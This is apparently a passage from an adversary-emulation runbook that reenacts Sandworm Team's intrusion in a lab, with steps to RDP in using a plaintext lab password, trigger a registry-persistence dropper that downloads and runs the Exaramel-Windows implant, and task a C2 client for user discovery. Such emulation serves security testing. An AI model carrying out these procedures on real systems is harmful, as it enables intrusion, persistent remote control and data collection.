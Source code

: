 Terminate the PsExec.py session. Keep your terminal open.

```bash
exit
```

You will now RDP into gammu, role-playing as the legitimate fherbert user.

From your current terminal, run:

```bash
xfreerdp +clipboard /u:WORKGROUP\\fherbert /p:"Whg42WbhhCE17FEzrqeJ" /v:10.0.1.7
```

:warning: Keep the gammu-RDP window open.

On login, the fherbert registry persistence will execute the exaramel-windows-dropper (wsmprovav.exe).

The dropper will download Exaramel-Windows over HTTP. The dropper then executes the Exaramel-Windows (wsmprovav.dll) using rundll32.exe.

[Source Code](../../Resources/Exaramel-Windows-Dropper/main.cpp)

:warning: Switch to your control server terminal; you should have a new C2 session from Exaramel-Windows.

Take a screenshot of the new implant session and paste it in Slack.

### :microscope: Cited Intelligence

* <https://blog.talosintelligence.com/2017/06/worldwide-ransomware-variant.html>

* <https://securelist.com/be2-custom-plugins-router-abuse-and-target-profiles/67353/>

* <https://blog.talosintelligence.com/2018/02/olympic-destroyer.html>

* <https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/>

<br>

## Step 16 - Windows Discovery

:microphone: `voice track`

Using the Exaramel-Windows C2 channel, Sandworm obtains the current username, OS version, performs a recursive file listing, and queries for RDP connections.

### ☣️ Procedures

Place your cursor on the second pane in the control server window.

Run the following discovery commands:

Get current user.

```bash
# Sandworm Team has collected the username from a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "get-user"
```
